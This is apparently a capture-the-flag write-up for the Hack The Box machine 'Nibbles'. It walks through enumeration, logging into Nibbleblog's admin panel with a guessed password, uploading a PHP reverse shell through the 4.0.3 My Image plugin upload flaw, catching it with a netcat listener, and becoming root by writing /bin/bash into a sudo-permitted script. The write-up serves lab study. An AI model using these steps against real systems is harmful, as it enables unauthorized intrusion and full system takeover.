

## Overview

Nibbles is an Ubuntu box hosting a site called Nibbleblog. After some basic enumeration of the default page and gobuster scanning I found the admin page with an easily guessible password.  From there I took advantage of an arbitrary file execution vulnerability in Nibbleblog 4.0.3 and uploaded a reverse shell. The user nibbles was able to run a monitor script as root with no password, since the user had full control over that path I was able to create a file containg /bin/bash to become root.

## Enumeration

**Software**
* Ubuntu 16.04.3 LTS
* nibbleblog 4.0.3
  * Codename: Coffee
  * Release date: 2014-04-01
  * https://sourceforge.net/projects/nibbleblog/
* OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

**Open Ports**

```
map -v -Pn -sT -A -p- 10.10.10.75 -oN /mnt/data/boxes/nibbles/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp - http


**Directory/File Brute Forcer**

```
gobuster dir -u http://10.10.10.75 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 30 -x html,php
```

* /index.html

```
gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 30 -x html,php
```

* /index.php
* /sitemap.php
* /content
  * /private - various XML files. users.xml sh ows username "admin"
    * /plugins - more folders containing db.xml file
  * /public - empty folders
  * /tmp - empty
* /feed.php - atom feed 
* /themes - theme folders
* /admin - site files
* /admin.php - "sign in to Nibbleblog admin area"
* /plugins - various folders
* /install.php - "Blog already installed... May be you want to update ?"
* /update.php - Redirect from install.php. Shows "DB updated + paths and Nibbleblog Version
* /README - Information about nibbleblog invluding version info, system requirements, etc.
* /languages
* /LICENSE.txt
* /COPYRIGHT.txt

## Steps (user)

I started by browsing to http://10.10.10.75 and received a page with the text "Hello World!". After viewing the source of the page I saw a comment that indicated there was a /nibbleblog/ directory on the site.


I kicked off another gobuster scan, appending /nibbleblog to the URL, while I manually reviewed the site. There was nothing interesting in the source and all the links pointed to a blank page.

After checking the results of the second gobuster scan I came across an admin page.

```
http://10.10.10.75/nibbleblog/admin.php
```


I did a search for default credentials for Nibbleblog but didn't find anything. Luckily the password was the name of the box so I was able to log in with admin/nibbles.



Doing an internet search for nibbleblog exploits, I came across this packetstorm article - https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html

```
...truncated...

Activate My image plugin by visiting
http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
    Upload PHP shell, ignore warnings
    Visit
http://localhost/nibbleblog/content/private/plugins/my_image/image.php
```

So basically once the image plugin is enabled any php file can be uploaded to get a web shell, reverse shell, etc. I decided to go right for a reverse shell.

I copied a reverse shell to my working directory and modified the IP and Port in the copy.
```
cp ~/tools/webshells/php/php-reverse-shell.php rshell.php
```

I browsed to http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image and clicked "configure" under "My image".


I clicked "browse", selected rshell.php, and clicked "save changes"


There were errors but they can be ignored


I set up a netcat listener (nc -lvnp 4200), browsed to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php and received a callback.


## Steps (root/system)

Running "sudo -l" as user nibbler shows that this user can run "/home/nibbler/personal/stuff/monitor.sh" as root.

> There seems to be a delay when running sudo. The error is "unable to resolve host Nibbles" so guessed this had something to do with the hosts file.


Changing to that directory failed because it didn't exist. I went ahead and created the personal/stuff folders along with the monitor.sh file.  

```
mkdir -p personal/stuff
```

Added the command to spawn a shell in monitor.sh and made it executable

```
echo "/bin/bash" > monitor.sh
chmod +x monitor.sh
```

Once I ran sudo, providing the full path to the monitor.sh script, I received a root shell.


